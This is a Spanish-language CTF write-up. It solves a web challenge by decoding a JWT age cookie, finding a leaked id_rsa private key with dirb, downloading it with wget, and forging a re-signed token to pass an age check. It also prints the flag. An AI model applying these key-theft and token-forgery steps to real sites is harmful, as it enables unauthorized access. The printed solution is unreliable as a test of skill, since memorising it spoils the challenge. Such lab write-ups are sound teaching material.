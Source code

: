 <h1 align="center">
    🍻 JaggerWhiskyTequila II 🍻
</h1>

## 💭 Concepto

Cuando se accede a la web, se pueden observar el mismo contenido que en el reto anterior ([JaggerWhiskyTequila](./JaggerWhiskyTequila.md)). Al intentar comprar una, nos redirige a la URL `/compra` donde nos aparece el siguiente mensaje:

> No tienes +18 años

Exactamente igual que antes, si comprobamos las cookies, encontraremos una con el nombre de `cliente` y un valor similar a este:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJlZGFkIjoxOH0.wy2HzlTakbUXb0BFEw1nVI5ItrXdDxQ-UpmNV9_KuN1MBH5UwKNPoebu4Nn7k0jw3GFWoXTnIhQcrvPEH_Xj6LwMk716EAm8n7uSp_XWKNjZTlzKm0_IhW_k3YnQxd9hAYDH8OpiaU4o4ubhBGWX3qbBWwc1ZUxOYfu29lAons3e3oAKd7u1-YF4oHsik29OrdDKU5A12hkQoygRs7XCVYHQMTlHjM6tyD0RiAJn20TIwD6RxXQlpJib7_RkJpk3SEmIqrWyto3OwfRmehVJ-qToJmvAAVsHaqDYEzZEiFXIDNlI6W71R0UpRU8XvlUxXa5WGM9fhVF5rgNc7aNVzdt-Y1xf3UAv68_vmmPcsvjyw9DpnGDQCMXBObqP0HV3zpFUuak33ZB4EVZRXq9MFkvsj2CXY58cHh4psppF6vmIR7-tOfTqLkg6G2FUhDOTn_x6mDRZ1xOWio8gK1qt5Mf3rml3KSDGWae0vdcFfihMIyyO5-0V-5WSYopH409tJw20vzZm6AsrhPW9RZiczK0efZRCXa22Tb5j9c03Cewt4JQ6Xcj6s-eiBW_99XQUkcpivshaHtKSwzaSFLNfBhwjir7dpug_DVejEF4XJ_62Qu6jWPTa0UPa_oor6p8uXwkzMCC5-g4oVGxLuoTp1f42VUkK4UFKiUZVb0g3tzk
```

Ya sabemos que el reto estará basado en vulnerabilidades conocidas de `JWT`. Además, si accedemos a la página raíz, podemos encontrar el siguiente comentario en el código fuente:

```html
<!-- Como la última vez nos hackearon, he generado una llave pública y otra privada para evitar que vuelva a suceder -->
```

## 📜 Teoría

Lo primero de todo es decodificar la cookie. Para ello podemos hacer uso de herramientas online, como [JWT.io](https://jwt.io/), o segmentar la cadena según el delimitador (en este caso, un punto), dado que JWT sigue el siguiente formato:

<h1 align="center">
    <img alt="JWT Format" src="../.img/jwt-format.webp" />
</h1>

En el **Header** se especifica el tipo de formato que se utiliza, así como el algoritmo a usar para cifrar/descifrar los datos.

En el caso del reto, la información obtenida es la siguiente:

```sh
echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9" | base64 -d
# {"typ":"JWT","alg":"RS256"}
```

> `RS256` indica que el **Payload** está cifrado usando claves asimétricas

Si hacemos lo mismo con el segundo fragmento, podemos obtener la información guardada actualmente en la cookie:

```sh
echo -n "eyJlZGFkIjoxN30" | base64 -d
# {"edad":17}
```

Como vimos en la página de `/compra`, el mensaje nos indicaba que no teníamos más de 18 años. Ya sólo queda buscar la manera de modificar el valor de la cookie para especificar una edad mayor.

> Como se trata de una versión mejorada de un reto anterior, evitaremos intentar explotaciones antiguas

## 💣 Explotación

La vulnerabilidad de este reto no se encuentra en el `JWT` en sí, sino en la premisa de que sabiendo qué clave se ha usado durante el cifrado, seremos capaces de modificar el **Payload**.

---

```yml
Vulnerabilidad: Claves privadas leakeadas
```

Aunque no es habitual encontrarse este fallo en entornos reales, hay veces que los desarrolladores cometen descuidos a la hora de subir los archivos que conforman una página web.

Siendo la URL del reto `http://ctf.kike.wtf:2010/`, ejecutaremos `dirb` con el fin de encontrar algún fichero oculto:

```sh
dirb http://ctf.kike.wtf:2010/
```

El resultado será similar a esto:

```
-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Tue Dec  8 11:13:02 2020
URL_BASE: http://ctf.kike.wtf:2010/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://ctf.kike.wtf:2010/ ----

+ http://ctf.kike.wtf:2010/id_rsa (CODE:200|SIZE:3243)
+ http://ctf.kike.wtf:2010/robots.txt (CODE:200|SIZE:25)

-----------------
END_TIME: Tue Dec  8 11:13:08 2020
DOWNLOADED: 4612 - FOUND: 2
```

Llama la atención el archivo `id_rsa`. Para descargarlo, basta con acceder al enlace o utilizar herramientas como `wget`:

```sh
wget http://ctf.kike.wtf:2010/id_rsa
```

El contenido del archivo nos indica que es una clave privada:

```
-----BEGIN RSA PRIVATE KEY-----
MIIJKQIBAAKCAgEA18Ra2jDgHFRkuOgx4y4jhAzbt112/RRblmqpB31//CHOp/H8
FFO2eMI4TSxCUtMyODbJw6GhxCi0bCBKNfPIM8liMIm9337cza3rVyYmK/6nqPXH
5HXj6KFflpoRekg5Oy8+wBmwPzYjvcRKUGr2TqKdpvSSseYL/7m3na7UDuiX34hE
    ... ... ...
AVN9BjTW6DZ/9RcOfStMoxee4Lf43hSkTh6EC4M3IHGWzCfQSFItbgsM9HjZFacY
FK4JJgp3NUIfabVey+20datpoFlcNp6RfImCnHxxso70QUOMOJku5StQbNcGY5WI
hC3nxCzxssVRJFh8K2hCPv+KKgPOLozIVcJqia1CzSdmU46PkRoE30xCQXW8
-----END RSA PRIVATE KEY-----
```

Para modificar el **Payload** necesitamos también la clave pública. Para ello, podemos recuperarla a partir de la clave privada usando el siguiente comando:

```sh
openssl rsa -in id_rsa -pubout -outform PEM -out id_rsa.pub
```

Una vez hecho esto, haremos uso de herramientas online como [JWT.io](https://jwt.io) para modificar el contenido. El resultado será algo similar a esto:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJlZGFkIjoxOH0.c5Ey9cWn2zAfHgZEySSPzWrph7LFnoC-UvsuZwFF2g9c6vY8bvq_8D83VC6n-FDHefkZZVKYFxUMDXSP63jr60Ob2P9ubifDglFQ_kRpFJ4lYJoPxKo2wrcNJahV9mQVgkh9Jj9GW0rvrRjGlKm6_cZ3dp3S8xVHcMs_AIlDsImwP-U-QcHgcZBTaez0JtXkHNPikIhk4nFJzTnaczLqNjEmZuxSDy_gL70_2RFyemhX5upjTxWtfiTRdX_xtbpWUDAsiEOeDbnbv6qJVvBkwiwi1f0bPlxaxmebTIB4Jx0DSQie0iXTAWXcsf1jjvK-3dfnFdESUNSx2AoEmChHp56YBiYzd-xIrZSsjJlsVZrFDvUkdVVKogrGWeC1wAnvt8jCzTYHfsI1Ul_2onF6RDbSNRIyexBT8Bkxkrc3nkT3ng5679Qp9oGNISD4DGqB5e7rnSJFXtUJWCyNUcud_vZ11PjFjYh5Ggt4BvhWCAeZY36tURDwhXXQEVXQ56XTL4NsPeK8-S63w1cRCnimxx8KXWGeg0WJerQJp67-IGF_nSNC6cw6IWz7It8Sg5_FDZXOmDR65Lv4F9XzuopIC1NXt1BZKmGydT2Aorx4yfEt-Dnkq_0Hk_QgldfKrvKB4sgV4o64uOTug1TTihIh3vGWTp816UL1_FmIa6zkKUI
```

> Las claves públicas y privadas se regeneran de vez en cuando, por lo que es posible que las usadas en esta solución no coincidan con las del reto.

Igual que antes, sólo queda reemplazar el nuevo token en la página y recargar para obtener la `flag`.

## 🏁 Flag

```
pumaCTF{mY_pr1vat3_add1ct10n}
```